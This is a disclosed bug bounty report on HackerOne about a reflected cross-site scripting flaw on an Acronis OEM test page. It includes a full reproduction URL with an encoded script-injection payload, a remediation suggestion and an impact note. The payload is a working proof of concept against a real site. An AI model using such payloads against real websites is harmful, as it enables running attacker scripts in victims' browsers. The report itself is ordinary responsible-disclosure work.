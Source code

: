 # [oem.acronis.com] Reflected Cross Site Scripting 

## Report Details
- **Report ID**: 2038943
- **URL**: https://hackerone.com/reports/2038943
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-06-26T16:22:14.281Z
- **Disclosed**: 2024-12-28T08:57:12.458Z

## Reporter
- **Username**: darkdream
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
## Summary
Hi Acronis team
i have found a XSS reflected  in:oem.acronis.com

## Steps To Reproduce
  1.     for xss go to link :
```
https://oem.acronis.com/test/testenv.html/%3C/pre%3E%3Cisindex%20type%3Dimage%20src%3D1%20onerror%3Dalert%289166%29%3E%3Cscript%3Ealert(origin)%3C/script%3E
```
##POC:

{F2446065}

## Recommendations
delete test page from your server

## Impact

Attacker can execute JS code on the Victim Behalf.

## Attachments
- xss-oem.mp4
